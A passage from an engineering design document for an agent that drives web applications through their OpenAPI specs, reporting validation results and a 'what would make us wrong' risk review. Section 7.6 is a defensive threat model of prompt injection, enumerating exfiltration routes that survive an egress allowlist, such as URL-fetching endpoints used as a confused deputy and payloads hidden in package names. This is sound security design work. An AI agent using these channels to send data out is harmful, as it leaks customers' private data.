| 7 | Preliminary **effect-classification** read: label each extracted route `read_only` / `write` / `destructive`, score against HTTP verbs read from `app.openapi()` **across all five deployment configurations**, not from a single `/openapi.json` fetch | First real datapoint on U-02 | **Corrected 2026-08-02.** This step originally said "score against HTTP verbs from `/openapi.json`," which [finding 004](../specs/001-discovery-validation/findings/004-recall-against-authoritative-key.md) shows would have labelled **22 of 69 routes rather than all of them**, because a single fetch reports one deployment configuration — `adk api_server` serves 27 operations and only 22 of them are among the 69 recovered. The remaining 47 would have gone unlabelled, and the 22 that *were* labelled would over-represent that configuration's route mix — so a precision figure computed from them would not be a sample of the surface D-16's 0.98 gate governs. The repair is free and already implemented: [finding 007](../specs/001-discovery-validation/findings/007-contract-extraction.md)'s `build_contract_key.py` instantiates the app in each of the five constructor configurations, calls `app.openapi()`, and unions the result to **69 operations matching the 69 recovered routes exactly**. Reuse it. The label is still weak — a verb is not an effect, and `POST /search` is the standing counterexample — but it is now weak over the whole surface instead of weak over two fifths of it. |
| 8 | Confirm the language distribution reality | A written note | Corpus is **78% Python / 16% TypeScript**, Go+Java+Kotlin at 1.5%, **zero real PHP/Ruby/C#/Swift** — four `codegraph` resolvers are unexercisable. Passing Phase 0a licenses exactly one claim: *"the analysis layer handles well-maintained, mostly-Python SDK repos."* |
| 9 | **Added and completed 2026-08-02, out of order.** Derive a contract — parameters, return type, exceptions — for each of the 69 recovered endpoints and score it against the application's own published schema | **Both gate readings, and they land on opposite sides:** literal 60/69 = **0.8696** clears the pre-registered ≥ 0.80; validated 53/69 = **0.7681** misses. Parameters exact at 207 of 207; return types 53 agreements and zero disagreements; exceptions 53.6% coverage with no ground truth | This was scheduled as E4 in the ladder rather than as a 0a step, and it ran early because it needs nothing 0a does not already have. **The result that changes plans is not a rate**: one rule ablation produces 15 of 69 confidently wrong contracts, which is why D-17 now exists. Two consequences land back on this table — step 7's label source is corrected above using the same harness, and the gap-fill's largest item is a **type resolver** rather than a better parser (D-14). See [finding 007](../specs/001-discovery-validation/findings/007-contract-extraction.md). |
| 10 | **Added and completed 2026-08-02, also out of order.** Decide how reachability against a specific deployment is established, and decide jointly whether the target's published schema is a pipeline input rather than only a ground truth | **Probing the running instance wins outright: precision 1.0000 and recall 1.0000 across eight deployment configurations, dropping zero served operations, at one unauthenticated HTTP GET.** Configuration parsing is the fallback at 1.0000 on the seven pre-registered configurations but 0.0000 predicted with its mechanisms disabled; the declared precondition is a complement, scoring identically to doing nothing on the pre-registered reading | This was scheduled as E14 in the ladder and ran early because it needs nothing 0a does not already have. **It settles the question the blockquote above left open**: `/openapi.json` is indeed the right instrument for the *reachability* check, and that is now measured rather than asserted — exact over the intersection with the recovered set, and covering 0.8148–0.9206 of the full served surface, so it is an input labelled as a subset. Recorded as D-18, with D-17 gaining a fourth requirement (deployment identity as data). **Four things opened, and the one that reaches back onto this table is U-34**: every number came from a deployment that publishes its schema unauthenticated, and E15 in `plan.md` measures the case where one does not. See [finding 010](../specs/001-discovery-validation/findings/010-deployment-reachability.md). |

**Decision at the end of 0a:** adopt `codegraph`, extend it, or replace it — plus the first real estimate of the boundary-inference work item. **The first half is answered as of 2026-08-02: extend, with confidence, and with the gap-fill named and sized in D-14.** That answer rests on one repository, one framework, and one language, so steps 4, 7, and 8 still carry weight — and step 9 narrows *what* to extend, from extraction to resolution. The boundary-inference estimate remains outstanding and is Phase 0b's job.

**Cost:** 2–3 engineer-days. **$0** if step 3 comes back yes.

### 6.2 Phase 0b — Boundary inference scoring (still no agent, $0) — **NEVER RAN; DEFERRED TO v2 2026-08-02 (`plan.md` OD-09)**

> **This phase was skipped, and then its subject left v1.** Phase 0c ran without it — §6.2's own gate note says "if it does not, note it and proceed anyway," and proceeding is what happened — and OD-09 has since deferred boundary inference and decomposition-into-agents to v2 (§2.3, P-06). **So the corpus's best decomposition oracle is still unused and the axis question in D-11 is still unmeasured.** Retained in full as the v2 design: the target, the three probe classes, and the gate are all still the right ones, and the adversarial and degenerate cases below — *honest degradation is a feature; confident nonsense is disqualifying* — are worth more now than when they were written, because D-17 has since made that exact distinction a merge-blocking rule.

`adk-python/src/google/adk/` has ~20 intentionally-layered subpackages, which makes it the corpus's best decomposition oracle ([12](./12-examples-as-corpus.md) Phase 1).

- **Primary:** score inferred decomposition against the actual package structure.
- **Secondary:** `adk-samples` — does the analyzer split ~45 independent subprojects, or fuse them into one graph?
- **Adversarial:** `spec-kit` — registry/plugin dispatch. Expect degradation; **measure whether it degrades honestly** or emits a confident wrong topology. Honest degradation is a feature; confident nonsense is disqualifying.
- **Degenerate:** `claude-code`, `adk-docs` — near-empty and prose-only. Must produce "not enough code," never a crash and never a confident topology.

**Gate:** inferred decomposition must beat the naive package-structure baseline. If it does not, note it and proceed anyway — Phase 0c does not depend on it, and a single agent over the promoted tool set (A2) remains the reference arm.

**Cost:** ~2 engineer-days. **$0.**

### 6.3 Phase 0c — The ceiling test (Mealie, the number that decides everything)

Now spend money. Stand up **Mealie** (FastAPI, the primary corpus app), seed a private fixture, write **45 read-only tasks verified by SQL against that fixture** — never by asking the agent whether it succeeded, and never by an LLM judge.

**Three arms, and only three:**

| Arm | Configuration | What it measures |
|---|---|---|
| **A0** | Baseline agent: shell + read + grep + `codegraph`'s MCP server. App **not** running. | The floor. Built on the Claude Agent SDK with `allowed_tools` restricted — **do not hand-roll it**; a weak baseline is the most common way to fake a positive result. |
| **A0b** | A0 **plus** `curl`, network reachability to the running app, and its OpenAPI JSON on disk. | **The meanest honest control.** Whether the value is *synthesis* or merely *access*. |
| **A8** | ~20 domain tools **hand-written** by an engineer who knows Mealie well. | **The ceiling.** The best possible synthesized tool set, without building a synthesizer. |

**Metrics, defined once so nobody argues about them later:**

| Metric | Definition | Why this one |
|---|---|---|
| **TSR** — task success rate | Fraction of the 45 tasks whose **SQL postcondition against the privately-seeded fixture** holds after the run | The agent's own report is not evidence, and neither is a judge's (D-09) |
| **Tokens per solved task** | Total tokens across the run ÷ tasks passing the SQL check | The cost metric. A method that wins on TSR while tripling this may still lose commercially |
| **Tool recall** | Fraction of tasks whose required operation exists in the arm's tool set | **Check before interpreting any selection result** (P-04) — otherwise a coverage bug reads as a selection failure |
| **Turns to termination** | Model calls before the run stops | Catches the MAST failure mode directly: missing termination shows up here first |

**The two arithmetic facts this produces:**

- **A8 − A0 = the value of the idea.**
- **A8 − A2 = the quality of our synthesizer** (available later, in Phase 1, and cleanly separated from the above — without A8 the two are confounded and every disappointing result is ambiguous).

**Held fixed across all arms** ([11](./11-validation-plan.md) §4.3): one pinned model snapshot ID; fixed temperature/top-p/effort; **one harness with a `harness_fingerprint` hash emitted into every result row**; one system-prompt template with `{tool_list}` and `{role}` slots and **per-arm prompt tuning forbidden**; identical tool-result truncation and serialization *including the baseline's shell output*; identical fixture snapshot restored and hash-verified before every run; randomized task order with recorded seed. **n = 5** for all three arms — they are all headline arms.

**Kill and pivot criteria, pre-committed:**

| Result | Meaning | Action | **Outcome, 2026-08-02** |
|---|---|---|---|
| A8 does not beat A0 by ≥ 15 points **or** does not halve tokens-per-solved-task | Domain tools do not help on these tasks regardless of generation quality | **STOP.** The thesis is dead and it cost a week. | **Did not fire — and the arm named here was never run.** E7 scored A8 against **A0b**, not A0 ([finding 005](../specs/001-discovery-validation/findings/005-ceiling-test-harness.md)). Against A0b the first limb fails in every family and the second clears with room — 5.06×, ~~2.8×~~ **2.20×**, 9.3× *(the 9.3× is a cross-run, cross-fingerprint n = 2 observation and is no longer a range endpoint; the limb still clears on the within-session 2.20×–4.366× — §3.1 OWNER FLAG, U-46)* — and the criterion is an *or*, so this is not a stop (P-02) |
| A8 > 85% or < 25% TSR | The task set is mis-calibrated | Fix the task set and re-run 0c before drawing any conclusion. Do not interpret a mis-calibrated result. | ⚠️ **FIRED, and it constrains everything below it.** The tool arm sits at 1.00 on **27 of 41** measured tasks against the pre-registered 0.25–0.85 band. OD-04 refused to swap the primary metric to rescue it and its rebalance hit its own stop condition. **Two of the three families are therefore mis-calibrated and support no conclusion in either direction** (U-42) |
| **A0b ≈ A8** | Shell + `curl` + a spec matches hand-written ideal tools | **PIVOT.** The product is a runtime plus a verifier — roughly a tenth the planned size. This is the highest-information outcome in the entire program. | ✅ **FIRED — in all three families, and in two the baseline was *ahead*.** Lookups 26/27 against 27/27 (3.7 points, inside the band); joins 10/10 against 9/10; per-record 4/4 against 2/4. **`plan.md` OD-09 is the response and D-21 records it.** Given the row above, the re-scope rests on **one properly calibrated family at n = 4** ([finding 012](../specs/001-discovery-validation/findings/012-ceiling-test-per-family.md), U-42) |
| A8 ≫ A0 **and** A8 ≫ A0b | Real headroom, and synthesis has something to be good at | **PROCEED** to Phase 1. | **Did not fire. Phase 1 will not run.** Its A1-vs-A2 comparison is P-04, deferred to v2 unmeasured |

**Cost:** 3–4 engineer-days, **under $300** in model spend.

### 6.4 Total Phase 0

**~1 engineer-week and under $300** to reach a go/no-go on the entire program. Nothing about this requires the spec, the harness, the topology IR, the credential broker, or a single line of generated code. That is the point: [11](./11-validation-plan.md)'s design deliberately puts the cheapest kill in front of the most expensive build.

**What Phase 0 does *not* decide:** the agent class. That unblocks at **Phase 3, arm A6 vs. A2/A7**, with Phase 0's A8-vs-A0 result as a necessary precondition. Do not let anyone shortcut it.

**Outcome, 2026-08-02: Phase 0 cost $24.73 *(spend-actually-incurred basis; **$24.67** on committed artifacts alone — [VERDICT](../specs/001-discovery-validation/VERDICT.md) §6, basis clarified 2026-08-03)* of an authorised $120 and returned a re-scope rather than a go/no-go, which is the outcome the design made possible and nobody expected to be the modal one.** The paragraph above is vindicated on its own terms — the cheapest kill was in front of the most expensive build, and the expensive build was never started. **Phase 3 will not run, so the agent class was never decided and this warning was overtaken rather than heeded.** Read C-15 and P-01 for what v1 is instead: an agent holding general tools, pointed at a running application through its specification — Class B's target with Class A's toolset, which is the position §1.2 restatement 2 was written to forbid, arrived at by scope reduction.

### 6.5 Explicitly deferred until after Phase 0

Do not start these on Monday, in priority order of the temptation to start them anyway: the topology IR; the credential broker; the MCP export adapter; the iframe; multi-agent arms; Spec Kit `/speckit-specify`. All of them are downstream of a number that costs a week to obtain. **Two of these changed status on 2026-08-02 without leaving the list.** The **iframe** is now deferred by decision rather than by sequencing (OD-08, D-20, D-08), so it is off the roadmap until after v1 rather than merely off Monday's. And the **credential broker** is still not a Monday item, but OD-08 fixed one of its requirements early: it must accept a short-lived federated token *and* a long-lived key from the first version, because the self-hosted customer with a platform identity is the case that works today and must keep working when the hosted tier arrives (U-05). **A third changed status on 2026-08-03, and it is the same item read from the register side.** U-05 is **reclassified as hosted-tier-blocking** by owner decision, annotated on `plan.md` OD-08 — so the broker's two-credential requirement is now the *whole* of what U-05 asks of v1, and the trust question behind it gates the hosted tier rather than this list. The broker stays off Monday for the reason it always was: it is downstream of the ceiling number.

**The four loop-safety build items from §2.6 belong on this list.** The terminal-condition wrapper, the budget channel, the journaling layer, and deterministic fan-out ordering total 2.5–3.5 weeks and are on the critical path *to the production spec*, not to the go/no-go — Phase 0 runs A0/A0b/A8 under human supervision with a small manual spend cap, so nothing in it depends on a ceiling that survives a crash. **The exception that used to sit here, O-06, is gone: the owner decided it on 2026-08-02** (OD-01), which is what moved fan-out ordering from contingent to committed and fixed the scope of the other three. The 30-minute dynamic-workflow-tier probe that would have informed it is still worth doing early, because it feeds U-31, which is now the only open input to the largest item's size. **One item defers less comfortably than the rest:** OD-02 moved the coding-node executor from adopt to build and no one has sized it, so it is deferred without a number rather than deferred with one.

**Re-read 2026-08-02 after `plan.md` OD-09, because this list has partly inverted and reading it unamended would get the roadmap backwards.** Of the six items, **three left the roadmap rather than the week** — the MCP export adapter (D-06, deferred with synthesis), the iframe (already deferred with the hosted tier), and the multi-agent arms (P-05, P-06). **Two moved *forward* rather than back.** The **topology IR** is smaller and sooner, because content addressing is what the drift detector diffs against and drift is now half the product (§2.5). And the **four loop-safety items** are no longer merely "on the critical path to the production spec" — with Phase 0 finished and the spec being written now, they *are* the near-term build, and they did not shrink when the product did. **Spec Kit `/speckit-specify` is the one item whose gating condition has been met**: D-03 says it runs after Phase 0, Phase 0 is over, so it is the next process step rather than a deferred one. **And the coding-node executor is still unsized, which is now a larger problem than when this paragraph was written**, because it contains the D-22 interception point that Principle IV compliance depends on (C-16).

---

## 7. What would make us wrong

The strongest case against building this, stated as fairly as I can make it. If you are going to lose, these are the ways.

> **Read 2026-08-02: one of these seven happened.** §7.1 named the A0b result as the most likely single cause of death and it is the one that landed — measured, in all three families, with the baseline ahead in two ([finding 012](../specs/001-discovery-validation/findings/012-ceiling-test-per-family.md), `plan.md` OD-09, D-21). **That is worth saying plainly before the sections below, because a "what would make us wrong" list whose top entry came true is either a vindicated forecast or an unheeded warning, and which one it is depends entirely on whether the response was pre-registered. It was** ([11](./11-validation-plan.md) §7). **The list does not therefore retire, and two of the remaining six are made *worse* by the pivot rather than better** — §7.2 (the category may become a feature) and §7.6 (the trifecta), both annotated in place. §7.4 is untested rather than answered.

### 7.1 The A0b result — the most likely single cause of death

An agent with a shell, `curl`, network access to the running app, and its OpenAPI spec on disk is *not a strawman*. It is what a competent engineer does in an afternoon. If that arm matches ~20 hand-written ideal domain tools, then everything downstream of "point the agent at the spec" is elaboration: no boundary inference, no promotion selection, no contract derivation, no synthesis pipeline. The product collapses to a runtime plus a verifier.

**Why it might win:** frontier models read OpenAPI specs well; `curl` composes arbitrarily where a fixed tool set does not; and the model can construct the exact request it needs instead of the request a synthesizer anticipated. **Why it might lose:** 300 endpoints of spec is a large context cost paid on every turn, `curl` invites malformed requests that burn turns, and nothing in that arm carries effect labels — so it has no write story at all.

I would put this at genuinely uncertain, which is exactly why it is arm zero-b and why it runs in week one.

**✅ IT WON, 2026-08-02, and this section should be read as the most accurate forecast in the corpus.** A0b matched or beat A8 in all three families ([finding 012](../specs/001-discovery-validation/findings/012-ceiling-test-per-family.md)), `plan.md` OD-09 re-scoped the product, and D-21 records it. **Three details of *how* it won that this section did not anticipate, each of which changes what v1 must do.** ① The listed reason it might lose — *300 endpoints of spec is a large context cost paid on every turn* — did not bite; the shell arm exhausted **nothing** in 31 scored attempts, while the **tool** arm was the one that ran out of budget, on three of four per-record tasks. The cost failure landed on the opposite arm from the one predicted. ② The paragraph's last clause is the one that did not survive contact and it is the important one: *"nothing in that arm carries effect labels — so it has no write story at all."* **That was correct as an objection and wrong as a conclusion.** A write story exists without labels on tools, provided the tier is resolved per call at a point that can block, and the specification the arm already reads supplies the verb for free (D-22, C-16). This section identified the right gap and assumed only one way to fill it. ③ The collapse it predicted — *"no boundary inference, no promotion selection, no contract derivation, no synthesis pipeline"* — is right on three of four. **Contract derivation stays**, and it stays because the verifier needs it, which is a distinction between *what the agent may do* and *how we know what it did was right* that this section did not draw.

### 7.2 The category may become a feature

Anthropic shipped dynamic workflows ([10](./10-topology-in-practice.md) §2). MCP is the standard tool interface and improving. Progressive disclosure and programmatic tool calling exist as Anthropic and OpenAI API constructs ([09](./09-mcp-as-tool-surface.md) §2). Every one of those is a piece of what was going to be built here, shipped free inside a tool the target user already runs.

The optimistic reading is that a rising commodity floor makes the *selection and verification* layer more valuable, not less, because the surrounding pieces stop being differentiators for anyone. The pessimistic reading is that "generate an agent over your app" becomes a Claude Code slash command within eighteen months, and the remaining differentiated surface is a bounded-context inference algorithm — which is a feature, not a company.

**The honest position:** the moat is the *quality* of selection and effect classification, and quality moats are real but slow. If the plan depends on being first, it is already late. If it depends on being better, Phase 1's A1-vs-A2 gap is the number that proves it.

**⚠️ This section is materially worse after 2026-08-02, and the honest position above is now void rather than narrowed** (`plan.md` OD-09, D-21). **The named moat left v1.** Selection is P-04, deferred and never measured; effect classification splits, with the differentiator deferred and only a crude runtime proxy retained (D-22). **And the number that was to prove it will not be computed** — Phase 1 is not running, so *"if it depends on being better, A1-vs-A2 is the number"* points at an experiment that does not exist. **The pessimistic reading also gets sharper rather than staying put.** It said the residual differentiated surface would be a bounded-context inference algorithm, "a feature, not a company"; under the pivot the residual surface is a **contract-derived verifier and a drift detector**, and the same question applies to them with more force, because a spec-aware runtime over a published schema is closer to the commodity floor than a synthesis pipeline was (P-08, which inverts for the same reason). **The strongest available counter-argument, stated so this is not one-sided:** the two survivors are the two that the commodity floor is *not* rising toward. Anthropic shipped dynamic workflows and progressive disclosure; nobody shipped a verifier derived from your code's contracts, and D-09's measurement says it is buildable today on this class of target. That is a narrower bet than the original and it is measured, where the original was not.

### 7.3 The convergence findings in `10` may not generalize past coding agents

This is the caveat that document raises against itself, and it is the sharpest self-criticism in the corpus:

> Tier 3 was not reached. I did not survey non-coding production agents with any depth. If those diverge, the convergence claims are narrower than stated — they may be findings about *software-engineering* agents specifically, where a filesystem, a VCS, and a test suite provide external verification that other domains lack. **I think this is the most likely way §7 is wrong.**

That matters directly for us, because **Class B is not a software-engineering agent.** An agent operating through a running application's domain API does not have a test suite that tells it whether the operation was correct. It has a database it can read back — which is a weaker signal and is exactly what [11](./11-validation-plan.md) works around by verifying with privately-seeded SQL fixtures rather than agent self-report. If the loop-plus-verifier convergence is a fact about codebases and not about agents, the Class B design inherits none of it.

### 7.4 The multi-agent premise may not survive its own control

Multi-agent costs ~15× the tokens of a chat, and in Anthropic's BrowseComp data **token spend alone explained ~80% of performance variance** ([Anthropic](https://www.anthropic.com/engineering/multi-agent-research-system), via [01](./01-agent-anatomy.md) §7). That single number reframes most multi-agent results as spend results. Arm A5 — a single agent given the *measured mean spend* of the best multi-agent arm — is the control almost nobody runs, and I expect it to be competitive. If it is, "generates a multi-agent system" leaves the product description and the honest tagline becomes "generates a well-toolset agent." That is a smaller and less exciting claim, and it may still be a good business.

**Overtaken 2026-08-02, and *not* confirmed — the distinction is the whole point of this note.** "Generates a multi-agent system" has left the product description, but by scope decision rather than by control (`plan.md` OD-09, D-21): **A5 never ran, and neither did A3, A4 or A6** (P-05, P-06). So this section's prediction is unfalsified in both directions, and the tempting inference — *v1 ships one agent, so the multi-agent premise was indeed unnecessary* — **is exactly the error C-08 warns against.** The 15× token figure and the ~80%-of-variance result ([Anthropic](https://www.anthropic.com/engineering/multi-agent-research-system)) are unaffected and still the right prior for v2. **One thing did change against the tagline this section proposes, and it cuts deeper than the agent count:** the honest tagline is not "generates a well-toolset agent" either, because v1 generates no tool set. It is closer to *"points an agent at your application's own specification and verifies what it did"* (§1.3).

### 7.5 "Any language" is currently a claim with no evidence behind it

The corpus is 78% Python. Four `codegraph` framework resolvers — PHP, Ruby, C#, Swift — are unexercisable against anything vendored, and there is **not one conventional CRUD web app in `examples/`** ([12](./12-examples-as-corpus.md) §4.2, §10). Passing Phase 0a licenses exactly one sentence: *the analysis layer handles well-maintained, mostly-Python SDK repos.* Every use of "any codebase in any language" before Phase 4 is marketing, and internal marketing is the most expensive kind.

**This now has a measured instance rather than only a cautionary argument.** Two languages have been measured, and the central deterministic heuristic derived from the first did not survive the second: finding 001's HTTP-verb filter took route precision from 74.6% to essentially 100% on TypeScript and removes **zero of 41** false positives on Python, where the dominant false-positive class is a mocking idiom lexically identical to an HTTP `PATCH` (C-12). Two data points are enough to show a heuristic failed to transfer and nowhere near enough to characterize a population — Django, Flask, Spring, Rails, Go's `net/http`, and ASP.NET are all unmeasured, and `codegraph` ships resolvers for each whose quality is unknown. The operational rule that follows is cheap and should be adopted now: **every deterministic filter gets a second independent codebase in a different language before it is written into the product.**

**A second measured instance, 2026-08-02, and this one is about frameworks rather than languages** ([finding 007](../specs/001-discovery-validation/findings/007-contract-extraction.md)). Contract derivation was measured on FastAPI, **whose entire design premise is that the handler signature *is* the interface schema**, against ground truth that same framework generates from the same annotations the extractor reads. That is close to the best case that exists, and the result is correspondingly excellent — 207 of 207 parameter tuples exact. It is not evidence about Flask, where the body arrives through `request.json`, or Express with `req.body`, or Django REST Framework, Spring, Rails, and Go `net/http`, several of which express contracts nowhere a static reader can see. All five derivation rules that carried FastAPI to that result were written after inspecting one repository's failures; disabled, the validated rate falls to **0.5797**, which is the honest expectation for an untuned framework (U-32). **The corresponding operational rule, and the finding argues it is also the cheaper experiment:** the next contract measurement should be on a framework that expresses contracts *outside* the signature, because an adversarial target where the derivation recovers nothing is more informative than a second FastAPI target and costs no more. The TypeScript half of this section stays open too — the interface-resolution walk that got Python to 100% does not exist there and is unwritten against 4,395 declared interfaces.

**A third measured instance, 2026-08-02, and it is the strongest of the three because the untuned floor is zero rather than merely low** ([finding 010](../specs/001-discovery-validation/findings/010-deployment-reachability.md)). Reachability's configuration parser reached 1.0000 precision *and* recall on seven pre-registered deployment configurations of one FastAPI application, using **eight** individually switchable mechanisms all written after inspecting that application's gating constructs. **Disabled, it predicts 0.0000 operations** — and so does disabling ~~`M1_class_dispatch` on its own~~ **either `M1_class_dispatch` or `M2_kwarg_flow` on its own** (*corrected 2026-08-02, late, from [finding 011](../specs/001-discovery-validation/findings/011-reachability-without-schema.md) §2 — this site and U-26 were missed when C-12, U-38 and D-18 part 3 were corrected*), so the collapse does not require losing all eight and **two of the eight single-mechanism removals are catastrophic rather than one**, which makes this section's argument stronger. Where the contract result could carry 0.5797 forward as the untuned expectation, this one carries *nothing recovered until eight specific capabilities exist, and which eight depends on the framework*. The naive first pass at the same mechanism scored **worse than doing nothing at all eight configurations**. Two further scope limits land in this section rather than in the register, because they are about generality rather than about risk. Both instrumentation defects behind the reachability precondition are properties of **Starlette's router specifically** — the `Allow` semantics are its `Router.__call__`, the mount shadowing its `Mount` precedence — so **a framework that answers 404 rather than 405 for a method mismatch breaks the precondition mechanism outright, and nothing measured here would have caught that.** And the winning mechanism assumes the target publishes a machine-readable schema at a conventional path, which is a FastAPI-and-friends property rather than a web-framework property: Flask, Express, Rails, Spring and Go `net/http` publish one only when someone chose to add it. **The operational rule is the same one this section already carries, applied one layer out: the next reachability measurement should be on a non-Starlette framework, and the fact that it is also the cheapest available measurement is not a coincidence** — it is the same argument the contract half makes about adversarial targets being more informative at equal cost.

### 7.6 The trifecta may be unavoidable in the product the market wants

Customers will ask for the fused product: an agent that can read the code, drive the app, and be embedded in a page. That is private data plus untrusted content plus egress, and prompt injection is unsolved — filter defenses plateau near 95%, and architectural defenses like CaMeL buy provable properties by giving up utility ([01](./01-agent-anatomy.md) §8). A 5% failure rate on an operation with irreversible side effects is not a residual risk; it is a business model with a fuse on it.

The mitigation is capability removal, which is a *product* limitation, not a technical one — you sell a less capable thing on purpose. Whether the market pays for the safe version, or waits for a competitor who ships the unsafe one, is the question [08](./08-auth-identity-and-secrets.md) cannot answer and neither can I.

**Two 2026-08-02 decisions move this section in opposite directions and the net is worse, not better.** OD-08 defers the iframe with the hosted tier (D-20), which removes the *embedded in a page* leg from v1 — so the fused product this section warns about is not what v1 ships, and the trifecta is assembled in part rather than in full. But OD-07 requires a **general fallback path** in the emitted stack, which means the v1 agent holds shell, and self-hosting puts that shell inside the customer's network next to the production database by default. *That is stated without reference to the synthesized tool surface deliberately: `plan.md` OD-09 — decided the same day and, when the sentence above was written, **not yet propagated into this document** — moves tool synthesis out of v1 entirely, which changes what sits beside the shell without changing the fact of the shell.* **So the untrusted-content leg is what v1 is missing, and it is the leg a customer adds by pointing the agent at a support inbox, a webhook payload, or their own users' text.** The mitigation is unchanged and the timing is not: capability removal has to be designed in while the iframe is deferred, because the deferral is what makes it look optional (C-15, §2.8, O-05).

**OD-09 is now propagated, and the flagged sentence above understated it in one specific way that this section has to carry** (D-21, D-22, C-16). *"Changes what sits beside the shell without changing the fact of the shell"* is true and incomplete: **nothing sits beside the shell.** The synthesized surface was going to be the *capable* path and the shell the fallback; with synthesis deferred the shell is the only path, so the capability-removal mitigation this section recommends now has to be applied to the agent's entire toolset rather than to an escape hatch beside it. **The two concrete consequences, both worse than the pre-pivot position.** ① **The compile-time trifecta check is gone, not deferred.** §2.5's `no_trifecta` invariant ranges over the effect labels of a synthesized catalogue and is decidable before the run; over a general shell it is a property of the trajectory and is not decidable at all (C-16). v1 has an enforcement point that can block (D-22) and **no static guarantee**, and that is a strictly weaker safety posture than the design this section was written against. ② **The `read the code` and `drive the app` legs are now held by the same agent by default.** This section's opening sentence describes the fused product as the thing *customers will ask for*; under OD-09 two of its three legs are what v1 *is*, and only the embedding leg is withheld — and it is withheld by a deferral (D-20) rather than by a decision that it must never be added. **Nothing here is an argument against the pivot**, which was pre-registered and fired honestly. It is an argument that the pivot's safety cost is real, is concentrated in this section, and should be named in the production specification rather than inherited (C-15, which OD-07 assigns there).

**RE-READ 2026-08-03 against `plan.md` OD-10 (v1 is read-only), because this is the section where a read-only v1 would show up if it helped, and the honest answer is that it barely does.** The three legs this section tracks are *read the code*, *drive the app*, and *be embedded in a page*. **OD-10 removes none of them.** A read-only agent still reads the code, still drives the app through its external interface, and is still withheld from the page only by the D-20 deferral. **Consequence ① is unchanged in full**: the compile-time `no_trifecta` invariant is gone, and it was an *exfiltration* check — the shell and the general HTTP client are still present, so egress is unconditional and a successful injection still ends in data leaving. **Consequence ② is unchanged.** What OD-10 does is bound the *worst* outcome: an injection can exfiltrate but cannot destroy, because `curl -X DELETE` is denied at the interception point rather than gated behind a judgement. **That is a real reduction and it is not the reduction this section is about** — the trifecta is named for exfiltration, and the capability-removal mitigation recommended above still has to be applied to the agent's entire toolset. **The one mitigation OD-10 makes newly available and worth naming: egress is now the only leg with any give in it.** With writes gone, an egress allowlist on the emitted HTTP client and shell — target host only, no arbitrary destinations — would cut the third leg without costing v1 any capability it still claims, which is a materially cheaper trade than it was when the same allowlist would also have had to permit writes. **It is not decided here and it is not in D-22; it is flagged as the cheapest remaining option and left to the production specification** (C-16, and `.cursor/skills/agent-safety-and-sandboxing/`).

**WORKED THROUGH 2026-08-03, later the same day, and the sentence above is wrong in its *status* rather than its content — which is the distinction this document keeps insisting on, applied to itself** (C-17, U-44, `plan.md` OD-12 proposed). *"Flagged as the cheapest remaining option and left to the production specification"* describes a discretionary mitigation. **It is not discretionary.** Constitution Principle IV's *first* bullet requires, as architecture, *sandboxing with a real boundary — filesystem scoped, **network allowlisted to named hosts***; [08](./08-auth-identity-and-secrets.md) §8.1 item 4 lists default-deny egress at the host among the **hard requirements — do not ship without these**; and [07](./07-product-vision.md) §3.2.5 item 5 says in as many words that egress control is a runtime requirement rather than a deployment detail. **v1 satisfies none of them, and the reason the gap survived this long is visible in this section's own history**: every Principle IV argument here, in C-16, in D-22 and in OD-10 is about the *permission-tier* bullet, and the sandboxing bullet one line above it was never re-read against the pivot. **So the correct status of the paragraph above is: an obligation already on the books, unrecorded as owed, now recorded at C-17.**

**Does it close the leg? Substantially, and not completely — and the honest form of the answer is a list of what survives.** Default-deny outbound pinned to the target's API **host and port**, addresses pinned at configuration time rather than re-resolved, **DNS denied or proxied**, RFC 1918 / link-local / cloud-metadata / loopback denied even on an allowlisted host, enforced **at the host** rather than in the guest (§2.9 non-negotiable 4). That cuts the direct channel and simultaneously discharges the non-negotiable OD-08 degraded — **one mechanism doing two of the three jobs it was suspected of doing.** The third job it does **not** do. **Four channels survive it.** ① **The target application as a confused deputy** — permitting the target's API permits any operation of that API that fetches a URL on the caller's behalf, and *the request the attacker needs is a request to the allowlisted host*, so no network policy can distinguish it (U-44). ② **The response channel** to the operator's own client, which becomes egress the instant that client auto-fetches remote content referenced in agent output; [08](./08-auth-identity-and-secrets.md) §5.4 states this for the iframe — *"response rendering is an egress channel"* — and it applies unchanged to HTTP/SSE. ③ **Delayed egress** through durable artifacts the agent writes where something else later transmits them. ④ **Operator widening.** Under OD-08 we specify the policy and the customer instantiates it, and an operator who allowlists a package index to make `pip install` work has restored a complete exfiltration channel, because the requested package *name* carries the payload.

**On ① specifically, which is the one that was expected to break the clean answer and half-does.** The target measured here publishes five URL-fetching operations — `POST /api/recipes/create/url`, `…/url/bulk`, `…/url/stream`, `POST /api/recipes/test-scrape-url`, `POST /api/recipes/{slug}/image` — plus webhook and notification *test* endpoints. **Every one is an unsafe method, so OD-10's default-deny already denies them: on this target the deputy channel is closed by read-only and not by any egress control.** That is the opposite of the intuition and it is worth stating plainly, because **it is an accident of one application rather than a property of the class** — and because the reading itself is `provisional`, taken from the published operation table rather than from the handlers (C-14, U-44), so it narrows the search rather than closing it. Link-preview, oEmbed, avatar-fetch and image-proxy endpoints are commonly `GET` with a URL in a query parameter; one of those anywhere in a target's served set **resolves `read_only` under OD-10's stated rule set, is allowed, and re-opens this leg in full.** So the guarantee is **target-dependent**, it is cheap to check (U-44, no model spend), and the disposition must be pre-registered as **fail-closed** for targets that cannot be inspected.

**What this section can now say that it could not before, and what it still cannot.** It can say the trifecta's egress leg is **narrowed from unconditional to enumerated**, with the enumeration above, and that the direct channel is closed by a control that is decidable at configuration time. It **cannot** say the leg is cut, and *"the trifecta is mitigated"* remains a sentence this document forbids (see the injection posture in `.cursor/skills/agent-safety-and-sandboxing/`). **The defensible customer statement is blast-radius limitation plus detection, not prevention:** a successful injection cannot change data, cannot reach the internet directly, and cannot reach the database — and the paths it may still have are named, are checkable per deployment, and fail closed when they cannot be checked. **Timing and traffic-analysis channels against the allowlisted host are out of scope for a stated reason rather than by omission:** exploiting them requires an observer of the target's access log, and an attacker with that position already holds the data the channel would leak.

